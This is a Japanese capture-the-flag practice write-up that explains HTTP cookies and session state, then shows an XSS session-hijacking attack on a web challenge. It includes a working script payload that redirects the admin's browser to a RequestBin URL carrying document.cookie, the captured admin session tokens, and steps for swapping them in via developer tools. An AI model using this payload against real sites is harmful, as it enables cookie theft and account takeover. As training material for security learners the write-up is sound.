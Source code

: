 # なし(練習問題)
## (ctf4b)
## web
***

始めにURLにアクセスする。  
そのURLでまずXSSの脆弱性がないか確かめるため、以下のコマンドを入力する。  
> <script>alert(1);</script>
これを入力して、アラートがでると、XSSの脆弱性が存在しているということになる。今回はこの脆弱性に対して攻撃を仕掛ける。  

セッションハイジャックを理解するためには、ステート管理という概念を知る必要がある。  
ステートとは内部状態のことを指し、以前の状態を記憶しているかしていないかという考えのことをいう。  
例えば今日のごはんを何にするか考える時、ステート有の場合は、昨日のごはんについて覚えているため、昨日はカレーだったから今日はかつ丼にするか、みたいに考えるが、ステート無しの場合、昨日のご飯を覚えていないため、昨日のごはんがカレーであっても、平気で今日のごはんをカレーにする。  

次にHTTPのステート管理について  
HTTPはステートを管理する仕組みがないため、AさんBさんCさんがリクエストを送った場合、どのリクエストがだれからのものか判別することが出来ない。これを解決するためにCokkieというものが用いられる。  

始めにサーバにアクセスした際、リクエストにCokkieが含まれていなければそのリクエスト元に対してCookieを生成する。次からこのユーザはCookieをリクエストに加えることで、自分が誰なのか示すことができる。  
例えば、ＡさんにはAAAというCookieを、BさんにはBBBというCookieを渡しておけば、Cookieの情報をみてAAAならこのリクエストはＡさんからのものだな、BBBならＢさんからだなとわかる。  

セッションハイジャック  
つまり、第三者にCookieの情報が漏れた場合、その人がなりすましをすることが出来るということになる。例えば、BBBというCookieがCさんの元に渡った場合、CさんはBさんのふりをしてサーバにリクエストを送ることが出来る。これをセッションハイジャックという。  

今回はXSSでセッションハイジャックを仕掛ける。  

攻撃は以下の流れで行う。
1-Adminに対してスクリプトを仕込んだメッセージを送信
2-Cookieの中身を取得するスクリプトがAdminアカウントで実行される
3-外部のWebサーバにその内容が送信される
4-取得した内容を自分のCookieに転写する
5-この状態でアクセスする

AdminのCookieを外部サーバに送る必要があるため、簡易的にHTTPサーバが構築できるサービスRequestBinを使用する。  

https://requestbin.com/にアクセスし、Create Request Binの下にある小さなpublic binという文字をクリックする。  

すると簡易サーバが用意できたため、試しに生成出来たURLにアクセスしてみる。  
{"success":true}と表示されれば成功している。  

次に実際の攻撃を仕掛ける。攻撃の際はURLの後ろにCookieをクエリとして送信するようにすればいいため、jsでhttps://<<発行されたURL>>/?q=' + document.cookieのようなURLにアクセスさせることが目標  

実際の攻撃スクリプト
> <script>window.location.href='作成したサーバのURL?q='+document.cookie</script>

最後のdocument.cookieでAdminのクッキーを取得し、それを記述したURLに送信するようにする。
これにより、以下のような値が返ってくる。
```
remember_token=Admin|c613e309359f16f353174bf40c5877fef102ff855621eb77673ef341970ddce18d4f674d7785f527dc194f2b1cac34f7430001f2a786b9d270e4ca8efb7cd3d4;%20session=.eJwlzjsOwjAMANC7ZGaIk_iTbpyksmNHdIChpRPi7lTiAE96n7TOPY5HWt77Gbe0bp6WZCDCdXCgd2crWKDmQYRTiWxASJkSjqAOzGEdZbA7iU3RCJEqDtF0UrXLS6g0DDMnBO5tZtGKzVpAC2uluNUc0sMKKXLWdEXOI_b_5u7P7ZW-P9UHMgA.YSTebQ.7qbYyhTS3LkHgVBJDLK4rP390NI
```

見やすくするとこう
```
remember_token=Admin|c613e309359f16f353174bf40c5877fef102ff855621eb77673ef341970ddce18d4f674d7785f527dc194f2b1cac34f7430001f2a786b9d270e4ca8efb7cd3d4;
session=.eJwlzjsOwjAMANC7ZGaIk_iTbpyksmNHdIChpRPi7lTiAE96n7TOPY5HWt77Gbe0bp6WZCDCdXCgd2crWKDmQYRTiWxASJkSjqAOzGEdZbA7iU3RCJEqDtF0UrXLS6g0DDMnBO5tZtGKzVpAC2uluNUc0sMKKXLWdEXOI_b_5u7P7ZW-P9UHMgA.YSTebQ.7qbYyhTS3LkHgVBJDLK4rP390NI
```

こんなかんじでremenber_tokenとsessionというcookieが返ってきていることが分かる。これでcookieの値はわかったため、実際にAdminになりすましセッションハイジャックを仕掛ける。  

webサイトを開く->デベロッパーツール起動(F12)->上の方からApplicationを選択->Storage->Cookiesとすると中にsessionとremenber_tokenという名前のcookieが入っていることが分かる。後はこれをAdminのものに変えてやればいいので、先ほど取得したcookieをそれぞれの名前を確認して、正しい方へ入力する。この際あらかじめ書かれてあるcookieの値は完全に消す。

書き換えが完了したら、ページをリロードする。すると上の方に受信したメッセージのところがめっちゃ増えており、上の方にフラグが出ているため、セッションハイジャックは成功。現在表示されているのはAdminのページであることが分かる。